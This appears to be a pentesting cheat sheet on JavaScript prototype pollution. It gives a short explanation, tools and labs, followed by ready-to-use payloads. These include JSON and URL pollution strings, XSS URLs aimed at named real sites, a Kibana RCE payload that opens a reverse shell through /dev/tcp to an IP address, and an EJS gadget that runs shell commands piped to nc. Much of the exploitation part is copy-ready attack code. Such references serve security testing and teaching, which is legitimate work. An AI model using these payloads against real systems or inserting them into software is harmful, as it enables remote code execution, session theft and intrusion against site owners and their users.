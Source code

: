 # Prototype Pollution

> Prototype pollution is a type of vulnerability that occurs in JavaScript when properties of Object.prototype are modified. This is particularly risky because JavaScript objects are dynamic and we can add properties to them at any time. Also, almost all objects in JavaScript inherit from Object.prototype, making it a potential attack vector.


## Summary

* [Tools](#tools)
* [Labs](#labs)
* [Exploit](#exploit)
    * [Examples](#examples)
    * [Manual Testing](#manual-testing)
    * [Prototype Pollution via JSON input](#prototype-pollution-via-json-input)
    * [Prototype Pollution in URL](#prototype-pollution-in-url)
    * [Prototype Pollution Payloads](#prototype-pollution-payloads)
    * [Prototype Pollution Gadgets](#prototype-pollution-gadgets)
* [References](#references)


## Tools

* [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder) - Help you find gadget for prototype pollution exploitation
* [yuske/silent-spring](https://github.com/yuske/silent-spring) - Prototype Pollution Leads to Remote Code Execution in Node.js
* [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) - Server-Side Prototype Pollution gadgets in Node.js core code and 3rd party NPM packages
* [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution) - Prototype Pollution and useful Script Gadgets
* [portswigger/server-side-prototype-pollution](https://github.com/portswigger/server-side-prototype-pollution) - Burp Suite Extension detectiong Prototype Pollution vulnerabilities
* [msrkp/PPScan](https://github.com/msrkp/PPScan)

## Labs

* [YesWeHack Dojo - Prototype Pollution](https://dojo-yeswehack.com/XSS/Training/Prototype-Pollution)
* [PortSwigger - Prototype Pollution](https://portswigger.net/web-security/all-labs#prototype-pollution)


## Exploit

In JavaScript, prototypes are what allow objects to inherit features from other objects. If an attacker is able to add or modify properties of `Object.prototype`, they can essentially affect all objects that inherit from that prototype, potentially leading to various kinds of security risks.

```js
var myDog = new Dog();

// Points to the function "Dog"
myDog.constructor;

// Points to the class definition of "Dog"
myDog.constructor.prototype;
myDog.__proto__;
myDog["__proto__"];
```


### Examples

* Imagine that an application uses an object to maintain configuration settings, like this:
    ```js
    let config = {
        isAdmin: false
    };
    ```
* An attacker might be able to add an `isAdmin` property to `Object.prototype`, like this:
    ```js
    Object.prototype.isAdmin = true;
    ```


### Manual Testing

* ExpressJS: `{ "__proto__":{"parameterLimit":1}}` + 2 parameters in GET request, at least 1 must be reflected in the response.
* ExpressJS: `{ "__proto__":{"ignoreQueryPrefix":true}}` + `??foo=bar`
* ExpressJS: `{ "__proto__":{"allowDots":true}}` + `?foo.bar=baz`
* Change the padding of a JSON response: `{ "__proto__":{"json spaces":" "}}` + `{"foo":"bar"}`, the server should return `{"foo": "bar"}`
* Modify CORS header responses: `{ "__proto__":{"exposedHeaders":["foo"]}}`, the server should return the header `Access-Control-Expose-Headers`.
* Change the status code: `{ "__proto__":{"status":510}}`


### Prototype Pollution via JSON input

You can access the prototype of any object via the magic property `__proto__`. 
The `JSON.parse()` function in JavaScript is used to parse a JSON string and convert it into a JavaScript object. Typically it is a sink function where prototype pollution can happen.


```js
{
    "__proto__": {
        "evilProperty": "evilPayload"
    }
}
```

Asynchronous payload for NodeJS.

```js
{
  "__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=payload\"\".oastify\"\".com"
  }
}
```

Polluting the prototype via the `constructor` property instead.

```js
{
    "constructor": {
        "prototype": {
            "foo": "bar",
            "json spaces": 10
        }
    }
}
```


### Prototype Pollution in URL

Example of Prototype Pollution payloads found in the wild.

```ps1
https://victim.com/#a=b&__proto__[admin]=1
https://example.com/#__proto__[xxx]=alert(1)
http://server/servicedesk/customer/user/signup?__proto__.preventDefault.__proto__.handleObj.__proto__.delegateTarget=%3Cimg/src/onerror=alert(1)%3E
https://www.apple.com/shop/buy-watch/apple-watch?__proto__[src]=image&__proto__[onerror]=alert(1)
https://www.apple.com/shop/buy-watch/apple-watch?a[constructor][prototype]=image&a[constructor][prototype][onerror]=alert(1)
```


### Prototype Pollution Exploitation

Depending if the prototype pollution is executed client (CSPP) or server side (SSPP), the impact will vary.

* Remote Command Execution: [RCE in Kibana (CVE-2019-7609)](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
    ```js
    .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
    .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
    ```
* Remote Command Execution: [RCE using EJS gadgets](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce)
    ```js
    {
        "__proto__": {
            "client": 1,
            "escapeFunction": "JSON.stringify; process.mainModule.require('child_process').exec('id | nc localhost 4444')"
        }
    }
    ```
* Reflected XSS: [Reflected XSS on www.hackerone.com via Wistia embed code - #986386](https://hackerone.com/reports/986386)
* Client-side bypass: [Prototype pollution – and bypassing client-side HTML sanitizers](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
* Deny of Service


### Prototype Pollution Payloads

```js
Object.__proto__["evilProperty"]="evilPayload"
Object.__proto__.evilProperty="evilPayload"
Object.constructor.prototype.evilProperty="evilPayload"
Object.constructor["prototype"]["evilProperty"]="evilPayload"
{"__proto__": {"evilProperty": "evilPayload"}}
{"__proto__.name":"test"}
x[__proto__][abaeead] = abaeead
x.__proto__.edcbcab = edcbcab
__proto__[eedffcb] = eedffcb
__proto__.baaebfc = baaebfc
?__proto__[test]=test
```


### Prototype Pollution Gadgets

A "gadget" in the context of vulnerabilities typically refers to a piece of code or functionality that can be exploited or leveraged during an attack. When we talk about a "prototype pollution gadget," we're referring to a specific code path, function, or feature of an application that is susceptible to or can be exploited through a prototype pollution attack.

Either create your own gadget using part of the source with [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder), or try to use already discovered gadgets [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) / [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution).


## References

* [A Pentester’s Guide to Prototype Pollution Attacks - HARSH BOTHRA - JAN 2, 2023](https://www.cobalt.io/blog/a-pentesters-guide-to-prototype-pollution-attacks)
* [A tale of making internet pollution free - Exploiting Client-Side Prototype Pollution in the wild - s1r1us](https://blog.s1r1us.ninja/research/PP)
* [Detecting Server-Side Prototype Pollution - Daniel Thatcher - February 15, 2023](https://www.intruder.io/research/server-side-prototype-pollution)
* [Exploiting prototype pollution – RCE in Kibana (CVE-2019-7609) - MICHAŁ BENTKOWSKI - October 30, 2019](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
* [NodeJS - __proto__ & prototype Pollution - HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)
* [Prototype Pollution - PortSwigger](https://portswigger.net/web-security/prototype-pollution)
* [Prototype pollution - Snyk](https://learn.snyk.io/lessons/prototype-pollution/javascript/)
* [Prototype pollution and bypassing client-side HTML sanitizers - MICHAŁ BENTKOWSKI - August 18, 2020](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
* [Prototype Pollution and Where to Find Them - BitK & SakiiR - AUGUST 14, 2023](https://youtu.be/mwpH9DF_RDA)
* [Prototype Pollution Attack in NodeJS - Olivier Arteau](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf)
* [Prototype pollution attacks in NodeJS applications - Olivier Arteau - Youtube](https://youtu.be/LUsiFV3dsK8)
* [Prototype Pollution Leads to RCE: Gadgets Everywhere - Mikhail Shcherbakov](https://youtu.be/v5dq80S1WF4)
* [Server side prototype pollution, how to detect and exploit - YesWeHack](https://blog.yeswehack.com/talent-development/server-side-prototype-pollution-how-to-detect-and-exploit/)
* [Server-side prototype pollution: Black-box detection without the DoS - Gareth Heyes - 15 February 2023](https://portswigger.net/research/server-side-prototype-pollution)
* [Keynote | Server Side Prototype Pollution: Blackbox Detection Without The DoS - Gareth Heyes](https://youtu.be/LD-KcuKM_0M)
